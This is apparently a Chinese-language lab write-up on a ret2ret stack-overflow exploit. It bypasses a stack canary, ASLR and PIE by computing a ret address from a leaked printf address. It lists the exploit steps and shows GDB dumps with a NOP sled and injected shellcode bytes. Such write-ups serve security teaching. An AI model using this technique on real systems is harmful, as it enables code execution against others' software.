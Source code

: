 ## Main Idea

此处开启了stack canary、ASLR，提示我们使用 ret2ret 以绕过 ASLR。

## Magic Numbers

ret2ret 的关键在于找到一个可以利用的`ret`指令。在前两年的实验中，并没有开启 PIE ，所以可以直接通过`disas`命令来找到`ret`的地址。

而今年的实验为了加大难度开启了 PIE ，我们没办法直接找到可用的`ret`指令。然而，在函数`check_aslr`中有这么一行代码：

```cpp
printf("ASLR passed  : printf located at 0x%08x\n", (uintptr_t) printf);
```

它把`printf`函数的起始地址输出了出来，换句话说，我们利用已有的 API 可以很方便的获取`printf`的起始地址，这有什么用呢？我们对`printf`进行反汇编，有：

```
(gdb) disas printf
Dump of assembler code for function printf:
   0xf7ec70ea <+0>:     push   %ebx
   0xf7ec70eb <+1>:     call   0xf7e8f774
   0xf7ec70f0 <+6>:     add    $0x4ae98,%ebx
   0xf7ec70f6 <+12>:    sub    $0x8,%esp
   0xf7ec70f9 <+15>:    lea    0x14(%esp),%eax
   0xf7ec70fd <+19>:    push   %edx
   0xf7ec70fe <+20>:    push   %eax
   0xf7ec70ff <+21>:    push   0x18(%esp)
   0xf7ec7103 <+25>:    lea    0x238(%ebx),%eax
   0xf7ec7109 <+31>:    push   %eax
   0xf7ec710a <+32>:    call   0xf7ec936a <vfprintf>
   0xf7ec710f <+37>:    add    $0x18,%esp
   0xf7ec7112 <+40>:    pop    %ebx
   0xf7ec7113 <+41>:    ret    
End of assembler dump.
```

我们发现，`ret`指令永远在基地址偏移41个字节的地方。换句话说，`printf`中的`ret`地址的绝对位置是改变的，但是相对位置是不变的。这样，我们就有可用的`ret`指令了。

## Exploit Structure

1. 首先，将缓冲区用`nop`和SHELLCODE填充。
2. 然后，从程序返回的信息中获取`printf`的初始地址，记为`&printf`；不要忘记获取canary的值。
3. 计算得到`ret`指令的地址，即`&ret = &printf + 41`。
4. 将canary和`&ret`再次发送，完成注入。

## Exploit GDB Output

进行爆破前：
```
(gdb) x/80x &buf
0xff939f1c:     0xf7e69000      0x8683fbf8      0xf7ec1706      0x00000000
0xff939f2c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f3c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f4c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f5c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f6c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f7c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f8c:     0x00000000      0x00000000      0x00000000      0x00000000
0xff939f9c:     0x00000000      0x00000000      0x00000000      0x10000000
0xff939fac:     0x00000000      0xf7f030ac      0xf7f02c84      0xf7ec1797
0xff939fbc:     0x56653fa4      0xff93a0f4      0x00000001      0x56653fa4
0xff939fcc:     0xf7ec5c96      0x00000000      0xff939fec      0x00003fa4
0xff939fdc:     0x00000000      0x00000358      0x00000218      0x00000000
0xff939fec:     0x000003ef      0xffffffff      0x00000000      0x000000cc
0xff939ffc:     0x00000000      0x00001711      0x00000000      0xf7ec5c4b
0xff93a00c:     0xf7ec5b59      0x000000cc      0x000003ef      0xffffffff
0xff93a01c:     0x00000000      0xf7f030e4      0x56653fa4      0xff93a068
0xff93a02c:     0x56651689      0xff93a054
```

进行爆破后：
```
(gdb) x/80x &buf
0xff939f1c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f2c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f3c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f4c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f5c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f6c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f7c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f8c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939f9c:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939fac:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939fbc:     0x90909090      0x90909090      0x90909090      0x90909090
0xff939fcc:     0x90909090      0x90909090      0xdb31c031      0xd231c931
0xff939fdc:     0xb05b32eb      0xcdc93105      0xebc68980      0x3101b006
0xff939fec:     0x8980cddb      0x8303b0f3      0x0c8d01ec      0xcd01b224
0xff939ffc:     0x39db3180      0xb0e674c3      0xb202b304      0x8380cd01
0xff93a00c:     0xdfeb01c4      0xffffc9e8      0x414552ff      0x00454d44
0xff93a01c:     0xe8bea1db      0xe8bea1db      0xe8bea1db      0xe8bea1db
0xff93a02c:     0xf7eb6113      0xff93a000
```

`printf`反汇编：
```
(gdb) disas printf
Dump of assembler code for function printf:
   0xf7eb60ea <+0>:     push   %ebx
   0xf7eb60eb <+1>:     call   0xf7e7e774
   0xf7eb60f0 <+6>:     add    $0x4ae98,%ebx
   0xf7eb60f6 <+12>:    sub    $0x8,%esp
   0xf7eb60f9 <+15>:    lea    0x14(%esp),%eax
   0xf7eb60fd <+19>:    push   %edx
   0xf7eb60fe <+20>:    push   %eax
   0xf7eb60ff <+21>:    push   0x18(%esp)
   0xf7eb6103 <+25>:    lea    0x238(%ebx),%eax
   0xf7eb6109 <+31>:    push   %eax
   0xf7eb610a <+32>:    call   0xf7eb836a <vfprintf>
   0xf7eb610f <+37>:    add    $0x18,%esp
   0xf7eb6112 <+40>:    pop    %ebx
   0xf7eb6113 <+41>:    ret    
End of assembler dump.
```

因为开启了 ASLR 和 PIE，所以会出现几次 Segmentation Fault，这是正常现象。比如我这截取到的爆破后的GDB输出，是没有办法正常执行SHELLCODE的。